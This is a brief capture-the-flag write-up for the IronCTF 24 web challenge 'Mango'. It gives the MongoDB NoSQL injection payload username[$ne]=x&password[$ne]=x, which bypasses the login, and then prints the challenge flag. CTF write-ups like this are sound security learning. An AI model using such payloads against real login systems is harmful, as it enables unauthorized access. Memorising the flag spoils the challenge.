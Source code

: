 # IRONCTF 24

## Mango | webex

### Description: 

Mangoes are good for health! do you know what else are good for health? well, check my website about nutritious fruits!

# Author: Vigneswar


### Solve :

basic nosqli in mongodb u can use :

```username[$ne]=x&password[$ne]=x```

**ironCTF{I_Said_M@nG0_N0t_M0ngo!}**




